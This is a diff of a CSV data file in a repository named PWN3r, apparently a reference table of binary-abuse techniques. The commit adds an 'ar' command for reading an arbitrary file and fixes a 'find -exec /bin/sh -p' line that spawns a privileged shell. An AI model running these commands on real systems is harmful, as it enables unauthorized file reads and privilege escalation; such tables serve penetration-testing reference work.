

Before and after one commit to EGYCCAL/PWN3r, a CSV file: PWN3r/data/PWN3r.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; addresses are those after the commit; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
13-4-2023/make

```diff
--- a/PWN3r/data/PWN3r.csv
+++ b/PWN3r/data/PWN3r.csv
+row 25: 24 | x86_64-linux-gnu-ar | ar r '$FILE.ar' '$FILE'; ar p '$FILE.ar';rm -f '$FILE.ar' | File Read
@@ column A (id) renumbered between rows 26 and 57 @@
-C26 (cmd): …r '$FILE.ar' '$FILE';ar p '$FILE.ar'
+C26 (cmd): …r '$FILE.ar' '$FILE'; ar p '$FILE.ar';rm -f '$FILE.ar'
-C30 (cmd): find . -exec /bin/sh -p \ ; -quit
+C30 (cmd): find . -exec /bin/sh -p \; -quit
```
